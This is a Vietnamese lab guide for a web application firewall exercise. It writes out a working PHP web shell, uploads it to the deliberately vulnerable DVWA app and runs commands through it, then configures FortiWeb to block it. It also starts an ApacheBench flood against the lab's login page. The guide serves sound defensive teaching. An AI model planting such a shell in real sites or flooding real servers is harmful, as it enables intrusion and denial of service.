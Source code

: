 ### Giai đoạn 6: Tấn công và Phòng chống File Upload (Mới)

1.  **Mô phỏng Tấn công File Upload (Chưa bảo vệ File Upload):**
    * **Chuẩn bị file shell:** Tạo một file text tên `shell.php` với nội dung đơn giản sau:
        ```php
        <?php echo "<pre>"; system($_GET['cmd']); echo "</pre>"; ?>
        ```
    * **Upload file:**
        * Trong DVWA (level `low`), chọn mục `File Upload`.
        * Nhấn `Browse...`, chọn file `shell.php` vừa tạo.
        * Nhấn `Upload`.
        * **Kết quả mong đợi ban đầu:** File được upload thành công, trang web thường hiển thị đường dẫn tới file đã upload (ví dụ: `../../hackable/uploads/shell.php`).
    * **Thực thi shell:**
        * Truy cập đường dẫn tới file shell qua trình duyệt, thêm tham số `cmd` để thực thi lệnh, ví dụ: `http://dvwa.hcmute.com/hackable/uploads/shell.php?cmd=ls -la` hoặc `http://dvwa.hcmute.com/hackable/uploads/shell.php?cmd=id`
        * **Kết quả mong đợi:** Output của lệnh (danh sách file hoặc user id) được hiển thị trên trang. Tấn công thành công, đã chiếm được quyền thực thi lệnh trên server.
2.  **Cấu hình Phòng chống File Upload (Cập nhật Profile):**
    * **Kiểm tra/Tạo Signature Policy Gộp:**
        * Đảm bảo Signature Policy đang áp dụng (`Combined-All-Policy`) đã bao gồm các signature liên quan đến `Malicious File Upload`, `Web Shell` (Action `Alert & Deny`). Nếu chưa, cập nhật policy gộp này.
    * **(Tùy chọn) Cấu hình File Upload Restriction:**
        * Khám phá mục `Input Validation > File Upload Restriction` trong FortiWeb (nếu có và muốn tìm hiểu sâu hơn). Có thể tạo rule để giới hạn loại file (vd: chỉ cho phép ảnh), kích thước file.
    * **Cập nhật Web Protection Profile:**
        * Điều hướng đến `Policy > Web Protection Profile > Inline Protection Profile`.
        * Chọn và **Edit** Profile `Base-Protection-Profile`.
        * Đảm bảo `Inline Standard Protection > Signatures` đang sử dụng policy gộp (`Combined-All-Policy`) đã cập nhật.
        * Nhấn `OK`.
3.  **Kiểm tra sau khi Bảo vệ:**
    * **Thử Upload lại:** Lặp lại bước upload file `shell.php`.
    * **Kết quả mong đợi:** Việc upload có thể bị chặn ngay bởi FortiWeb (nếu signature phát hiện), hoặc upload thành công nhưng khi truy cập để thực thi shell (bước thực thi shell) sẽ bị chặn.
    * **Kiểm tra Log:** Kiểm tra log Attack, tìm các log liên quan đến `Malicious File Upload`, `Web Shell` hoặc các signature tương ứng.

### Giai đoạn 7: Tấn công và Phòng chống DoS

1.  **Mô phỏng Tấn công DoS (Chưa bảo vệ DoS):**
    * **Chuẩn bị:** Mở `XAMPP Control Panel`, nhấn nút `Shell`.
    * **Thực hiện:** Chạy lệnh sau trong cửa sổ shell vừa mở:
        ```bash
        ab -c 100 -n 2000 [http://dvwa.hcmute.com/login.php](http://dvwa.hcmute.com/login.php)
        ```
        *(Giải thích: `-c 100`: 100 kết nối đồng thời, `-n 2000`: tổng cộng 2000 yêu cầu. Bạn có thể điều chỉnh các giá trị này)*.
    * **Quan sát:** Theo dõi output của lệnh `ab`. Ghi lại các thông số như `Complete requests`, `Failed requests`, `Requests per second`.
    * **Kết quả mong đợi:** Phần lớn hoặc toàn bộ request thành công (`Failed requests: 0`), tốc độ `Requests per second` tương đối ổn định.
